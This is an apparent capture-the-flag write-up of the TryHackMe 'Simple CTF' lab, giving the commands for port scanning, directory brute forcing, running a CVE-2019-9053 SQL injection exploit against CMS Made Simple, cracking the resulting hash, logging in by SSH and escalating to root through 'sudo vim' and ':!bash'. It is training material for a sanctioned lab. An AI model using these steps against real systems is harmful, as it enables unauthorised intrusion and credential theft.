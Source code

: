 # TryHackMe: Simple CTF Write-Up

## Nmap Scan

I began by running an Nmap scan to identify open ports and services on the target machine.
```bash
nmap -sV 10.10.2.131
```

![Nmap Scan](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/nmap.png)

The scan revealed that FTP, HTTP, and SSH services were running.

## Initial Web Exploration

I visited the website, but initially, nothing significant was found.

### Gobuster Directory Bruteforce

Next, I performed a Gobuster directory brute force attack:
```bash
gobuster dir -u http://10.10.2.131/ -w common.txt
```

![Gobuster Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/gobuster.png)

This led me to the path [http://10.10.2.131/simple/](http://10.10.2.131/simple/), where I discovered that the website was running CMS Made Simple version 2.2.8. This information was hinted at by the "hints" button on the TryHackMe page.

![CMS Made Simple Version](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/website.png)

## Exploit Search

I used SearchSploit to find a relevant exploit and found a SQL injection vulnerability.
```bash
searchexploit cms made simple
```

![SearchSploit Results](https://github.com/Anjai7/Tryhackme_CTF/blob/main/exploit.png)
## Exploit Execution

The initial exploit was written in Python2. I searched for a Python3 version and found it on GitHub:

- [Python3 Exploit Script](https://github.com/Jason-Siu/CVE-2019-9053-Exploit-in-Python-3/blob/main/46635.py)

I integrated this script with the original exploit and executed it. The process took about 10-15 minutes.(also had the hint in try hack me to use this word list)
```bash
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.2.131/simple/ -w /opt/SecLists/Passwords/Common-Credentials/best110.txt
```

![Exploit Execution](https://github.com/Anjai7/Tryhackme_CTF/blob/main/credentials.png)

## Cracking the Password Hash

The exploit provided a salt and password hash, which I used with Hashcat to crack the password.

![Hashcat Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/hashcracking.png)

## SSH Access

After cracking the password, I attempted to SSH into the system - but my initial connection failed because I hadn't noticed SSH was running on port 2222 instead of the default port 22. A quick review of my earlier Nmap scan revealed my oversight, and using the correct port gave me successful access.
```bash
ssh mitch@10.10.2.131 -p 2222
```
![SSH Access](https://github.com/Anjai7/Tryhackme_CTF/blob/main/ssh.png)

## Finding User
Navigate to home dirctory and use ls
```bash
cd /home/
ls
```
![User](https://github.com/Anjai7/Tryhackme_CTF/blob/main/user.png)

## Previlage Execution
Unable to spawn a privileged shell through my initial attempts, I referred other write-ups and discovered that leveraging vim with sudo permissions could be used for privilege escalation.
```bash
sudo vim
```
```bash
:!bash
```
![Previlage](https://github.com/Anjai7/Tryhackme_CTF/blob/main/previlage.png)
![Root](https://github.com/Anjai7/Tryhackme_CTF/blob/main/root.png)

## 💡Lessons Learned

->Always pay attention to non-standard SSH ports.

->Use the wordlist they give you—it's like using a cheat code!

->If an exploit is in Python2, always search for a Python3 alternative.

->Vim + sudo = possible root access if not properly restricted.

